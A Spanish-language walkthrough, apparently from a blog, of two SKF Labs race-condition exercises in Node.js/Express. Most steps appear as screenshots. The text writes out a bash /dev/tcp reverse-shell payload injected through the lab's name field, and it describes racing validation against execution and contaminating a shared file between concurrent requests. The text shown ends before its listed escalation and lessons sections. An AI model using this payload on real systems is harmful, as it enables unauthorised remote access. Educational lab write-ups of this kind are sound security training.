# Race Condition — SKF Labs
**Dificultad:** Media | **SO:** Linux (entorno local) | **Fecha:** 19 de octubre de 2026 | **Autor:** krinoxx | **Plataforma:** [skf-labs (blabla1337)](https://github.com/blabla1337/skf-labs)

## Índice
- [Reconocimiento](#reconocimiento)
- [Enumeración web](#enumeración-web)
- [Acceso inicial](#acceso-inicial)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Lecciones aprendidas](#lecciones-aprendidas)
  - [Desde el punto de vista del atacante](#desde-el-punto-de-vista-del-atacante)
  - [Desde el punto de vista del defensor](#desde-el-punto-de-vista-del-defensor)

*Writeup educativo en entorno controlado.*

---

## Reconocimiento

Este laboratorio del repositorio SKF Labs está dedicado a condiciones de carrera (*race conditions*) en aplicaciones Node.js/Express, y se compone de dos niveles independientes servidos cada uno como una pequeña app local en el puerto 5000.

### Nivel 1 — RaceCondition (inyección de comandos)

Tras clonar el proyecto, instalo las dependencias y levanto el servicio con `nodemon`:





### Nivel 2 — RaceCondition-file-write (escritura/lectura de archivo)

El segundo nivel es un proyecto independiente con su propio `package.json`; repito el mismo proceso de instalación y arranque:





---

## Enumeración web

### Nivel 1

La página principal presenta una interfaz temática ("Live demonstration!", sección "Speedrun") con un campo de texto "Your name" y un botón "Make it mine!", además de un enlace para reiniciar el estado del sistema:



Al introducir un valor cualquiera (p. ej. `Krxx`) y pulsar el botón, la petición pasa por `?person=<valor>&action=validate`, tras lo cual aparece un botón "Boot!":



Pulsando "Boot!" se llega a `?action=run`, donde el campo "Check this out" ahora refleja el valor introducido:

Revisando el código fuente del servidor (`app.js`), la ruta principal gestiona tres acciones (`validate`, `reset`, y por defecto `run`), leyendo el contenido de `hello.txt` para mostrarlo en el campo "Check this out":



La función `boot_validate(person)` es la clave del comportamiento: escribe un script `hello.sh` con `echo "<person>" > hello.txt`, lo ejecuta con `exec("bash hello.sh")` de forma asíncrona, y en paralelo valida — también mediante `execSync` con una expresión regular `sed` — que la línea `echo "..."` en `hello.sh` solo contenga caracteres alfanuméricos:



Comprobando los artefactos generados en disco confirmo el patrón esperado:





### Nivel 2

La página de este nivel indica directamente la mecánica: "Race condition (file write)! — add a value to the url and download the file!":



Al visitar `/prueba`, el navegador descarga automáticamente `shared-file.txt` con el contenido `prueba`:





El código fuente confirma el flujo: la ruta `GET /:value` escribe de forma síncrona el parámetro de la URL en `shared-file.txt` y, acto seguido, abre, lee y envía ese mismo fichero como adjunto en la respuesta:



Para poder interceptar y repetir peticiones cómodamente configuro FoxyProxy para enrutar el tráfico del navegador a Burp Suite:



Una petición de control a `/testing` confirma el comportamiento base: la respuesta devuelve el mismo valor solicitado (`testing`), con cabeceras `Content-Disposition: attachment; filename=shared-file.txt`:



---

## Acceso inicial

### Nivel 1 — de la inyección a la shell reversa

Dado que `boot_validate` escribe el valor del usuario directamente en un script de shell antes de ejecutarlo, pruebo a introducir un comando entre backticks en el campo "Your name":



Al pulsar "Boot!" y acceder a `?action=run`, el campo "Check this out" muestra la salida del comando `id` ejecutado en el servidor, confirmando la inyección de comandos del sistema operativo:

Dado que la validación (regex) y la ejecución (`exec`) ocurren de forma asíncrona sobre el mismo fichero `hello.sh`, lanzo peticiones repetidas en bucle para ganar la carrera entre ambas operaciones de forma consistente:





Con la inyección de comandos confirmada de forma fiable, preparo un listener en mi máquina:



Y envío como "nombre" un payload de shell reversa (`bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"`) aprovechando la misma vía de inyección:



El listener recibe la conexión entrante, obteniendo ejecución de comandos como el usuario `Krx`:



### Nivel 2 — contaminación cruzada de contenido vía condición de carrera

Como la escritura y la lectura del fichero `shared-file.txt` no están sincronizadas ni aisladas por sesión, lanzo un bucle que satura el servidor escribiendo repetidamente el valor `hola`:



En paralelo, lanzo un segundo bucle que solicita un valor distinto (`test`) filtrando las respuestas que coincidan con `hola`, para detectar el momento en que una petición recibe contenido que no le corresponde:



Tras un instante, el segundo bucle captura respuestas con el valor `test` en lugar de reflejar su propio valor esperado, evidenciando que ambas peticiones concurrentes compartieron el mismo fichero en disco durante la ventana de carrera:



Repitiendo la petición de control a `/testing` en Burp Repeater durante la saturación, la respuesta llega contaminada con el valor `hola` escrito por otra petición concurrente, en lugar de `testing`:

